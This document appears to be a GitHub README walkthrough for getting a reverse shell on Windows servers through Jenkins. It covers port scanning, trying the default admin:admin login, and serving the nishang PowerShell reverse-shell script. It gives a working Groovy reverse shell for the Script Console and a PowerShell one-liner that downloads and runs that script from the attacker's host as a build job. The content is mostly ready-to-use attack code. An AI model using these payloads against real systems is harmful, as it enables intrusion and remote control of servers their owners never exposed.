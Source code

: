 # reverse-shell-via-Jenkins

Simple scenario of how we can gain access to Windows web servers using admin account on Jenkins.


## Ports scanning

Scan an IP address like this:
```
nmap -sV -sC -oA <some_IP>
```
Note: It is important to note that using -sV will force Nmap to proceed with the TCP 3-way handshake and establish the connection.
The connection establishment is necessary because Nmap cannot discover the version without establishing a connection fully and communicating with the listening service. In other words, stealth SYN scan -sS is not possible when -sV option is chosen.


Let's say, you found open 8080 port with Jetty as a service and Windows web page on port 80.

You can be almost sure it's Jenkins. 

This application is running on 8080 as a default port and Jetty is an internal web container that Jenkins is using to has the ability to serve HTTPS as one of the methods of authentication.

Access http://<IP>:8080 and check if Jenkins login panel is avaliable.
If yes, then go to the next step `Login`.


## Login

Default credentials to Jenkins are admin:admin. Try it.

If you gained admin access to Jenkins, you can do almost everything. 

Now, it's time to get a reverse shell.


## Gain reverse shell

Let's try to execute some code to get initial shell to Windows web server via Jenkins.

First of all, use nishang script to gain reverse shell on Windows. Download this script on local machine:
```
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
```

Sceondly, run Python webserver in the same directory that you've been downloading script mentioned above.

```
python -m http.server
```
This command will start web server on default port with is 80.
If you want to change port, define it at the end of command.
```
python -m http.server <port>
```


The last this you should prepare is to start `netcat` listener on your local machine:
```
nc -lvnp <random_port>
```


## Run code via Jenkins

There is a coupe of ways to do it:

### First scenario:

1. Go to `Manage Jenkins` -> `Script Console`
2. Add Groovy script to execute this code on Windows machine:

```
Thread.start {
String host="<your_machine_IP>";
int port=<your_webserver_port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```
3. Run script and you should have session open in your listener.

### Second scenario:

1. Go to `New Item` -> `Freestyle job` -> `Execute Windows batch command`.
2. Add Powershell code:

```
powershell iex (New-Object Net.WebClient).DownloadString(‘http://<your_machine_IP>:<your_webserver_port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <your_machine_IP>-Port <your_listener_port>
```
3. Save new job configuration with `Apply`.
4. Run job clicking `Build now` and you should have session open in your listener after job is completed.






